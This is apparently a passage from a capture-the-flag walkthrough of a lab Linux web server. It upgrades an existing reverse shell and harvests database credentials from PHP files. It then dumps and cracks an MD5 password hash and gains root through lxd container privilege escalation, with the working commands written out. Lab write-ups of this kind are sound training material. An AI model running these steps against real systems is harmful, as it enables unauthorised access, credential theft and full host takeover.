 The default shell is rubbish, so we can upgrade it. Spawn a **better shell** with `$ python3 -c 'import pty;pty.spawn("/bin/bash")'`, then change the teminal emulator with `www-data@light-cycle:/$ export TERM=xterm`. Background the shell with Ctrl-Z, then run `$ stty raw -echo; fg` to stop cross-issues with our own terminal, then foreground the process again. Now we have a fully-functional reverse shell.

Find the **flag** file (we know the file name) with `www-data@light-cycle:/$ find / -name "web.txt" 2>/dev/null`, and then read it with `www-data@light-cycle:/$ cat /var/www/web.txt`.

Now we need to find the **web server conf files**. We can check the type of web server by seeing if the 404 page is generic e.g. [http://10.10.122.132:65000/jyhtgrfe](http://10.10.122.132:65000/jyhtgrfe). Turns out it's Apache/2.4.29. The Apache2 conf file is at `/etc/apache2/apache2.conf` (by default, according to Google), but that has nothing. The web server directory is `/var/www/` (again by default), and it contains a folder called `TheGrid`. Inside this folder, we find the video from earlier, the `public_html` (i.e. the website content) folder, and `includes`. This latter one contains several php scripts. Read them with `cat` and we find **one of them contains credentials**.

If we try to log in at the login page with those credentials, we get "Invalid username or password", so no luck there. The file with the credentials suggests it's a SQL database, so let's tru to access that with **MySQL**: `www-data@light-cycle:/$ mysql -utron -p`. We're in.

We can explore the database next:

`mysql> show databases;`
`mysql> use tron;`
`mysql> show tables;`
`mysql> SELECT * FROM users;`

Nice, we get a **username and hashed password**. The php file from before suggests it's MD5. This is easily cracked - I like [https://crackstation.net/](https://crackstation.net/).

We can log in to the login page with those credentials, but... again the video. But we can also **change the user from in shell**: `www-data@light-cycle:/$ su flynn`. Now we can get the next flag, which is in the usual CTF location: `flynn@light-cycle:~$ cat /home/flynn/user.txt`.

We can check which groups the user is in with `$ groups` or `$ id`, and we find **lxd** is one of them. We can exploit lxd for **privilege escalation** and get root. Full details are on the Advent of Cyber 2 page. For us all we need to do is:

`$ lxc image list`
`$ lxc init Alpine dletcont -c security.privileged=true` [`dletcont` is the container name]
`$ lxc config device add dletcont dletdev disk source=/ path=/mnt/root recursive=true` [`dletdev` is the device name]
`$ lxc start dletcont`
`$ lxc exec dletcont /bin/sh`

And we're **root**! This can be checked with `# id`.

Finally, change to the root folder with `# cd /mnt/root/root` then `# cat root.txt` for the **final flag**.